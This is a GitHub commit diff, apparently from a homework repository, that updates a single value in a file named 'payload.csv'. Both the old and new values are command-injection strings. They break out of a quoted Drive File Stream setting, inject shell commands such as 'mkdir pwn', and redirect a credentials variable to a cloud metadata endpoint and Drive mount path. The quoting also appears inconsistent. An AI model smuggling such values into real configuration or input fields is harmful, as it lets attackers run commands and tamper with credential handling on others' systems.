

Before and after one commit to Crazed-png/HOMEWORK, a CSV file: payload.csv, drawn as a sheet.

Commit message:
Update payload.csv

```diff
--- a/payload.csv
+++ b/payload.csv
@@ -2,2 +2,2 @@
 #1,2,3
-TBE_EPHEM_CREDS_ADDR='\'Drive File Stream, encountered a problem and has stopped|The domain policy has disabled Drive File Stream\'; echo \'drive EXITED\'; ) & mkdir pwn & #', 13
+TBE_EPHEM_CREDS_ADDR='172.28.0.1:8009/computeMetadata/v1 --preferences=trusted_root_certs_file_path:/opt/google/drive/roots.pem,mount_point_path:/content/drive/ 2>&1 | grep --line-buffered -E '\Drive File Stream encountered a problem and has stopped|The domain policy has disabled Drive File Stream\'; echo '\drive EXITED\'; ) & mkdir pwn & #', 13
```
